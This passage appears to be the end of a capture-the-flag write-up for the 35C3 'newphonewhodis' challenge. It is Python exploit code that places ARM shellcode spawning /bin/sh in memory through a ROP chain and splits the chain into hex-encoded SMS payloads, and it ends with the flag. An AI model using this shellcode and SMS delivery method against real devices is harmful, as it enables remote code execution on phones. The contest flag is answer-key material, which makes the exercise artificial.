 ```python
"\x02\x20\x01\x21\x92\x1A\x0F\x02\x19\x37\x01\xDF\x06\x1C\x08\xA1\x10\x22\x02\x37\x01\xDF\x3F\x27\x02\x21\x30\x1c\x01\xdf\x01\x39\xFB\xD5\x05\xA0\x92\x1a\x05\xb4\x69\x46\x0b\x27\x01\xDF\xC0\x46\x02\x00\x12\x34\x25\x3b\x24\x28\x2f\x62\x69\x6e\x2f\x73\x68\x00"

print len(shellcode)  
ropchain_second += p32(r4pop+1) #r4  
ropchain_second += shellcode[0:4] #r4  
for x in range(0, len(shellcode), 4):  
   spiece_next = shellcode[x+4:x+8]  
   if x >= len(shellcode)-4:  
       spiece_next = p32(address+1) # These put jumping address in r4  
       print "done"  
   ropchain_second += p32(popr3+1) #pc  
   ropchain_second += p32(address+x) #r3 value  
   ropchain_second += p32(storer4r3+1) #pc  
   ropchain_second += spiece_next #r4  
#add jump to address  
ropchain_second += p32(blxr4+1)

ropchain1 = ropchain[:134]  
ropchain2 = ropchain[134:]

ropchain_second1 = ropchain_second[:134]  
ropchain_second2 = ropchain_second[134:134*2]  
ropchain_second3 = ropchain_second[134*2:134*3]  
# ropchain_second4 = ropchain_second[134*3:]  
print len(ropchain_second4)  
print "smshex one 1 9999", encode_part(5+5, ropchain_second3, max_part=1,
CSMS=23).encode("hex")  
print "smshex one 1 9999", encode_part(5+6, ropchain_second4, max_part=1,
CSMS=24).encode("hex")

# print "smshex one 1 9999", encode_part(5+4, ropchain_second2, max_part=1,
CSMS=21).encode("hex")

print "smshex one 1 9999", encode_part(5+3, ropchain_second1,
max_part=3).encode("hex")  
print "smshex one 1 9999", encode_part(5, ropchain2, max_part=3).encode("hex")  
print "smshex one 1 9999",encode_part(4, ropchain1, max_part=3).encode("hex")

#35C3_n0k1a_pH0ne_i5_b3st_ph0n3  
```

Original writeup (https://mhackeroni.it/archive/2018/12/30/35c3ctf-
newphonewhodis.html).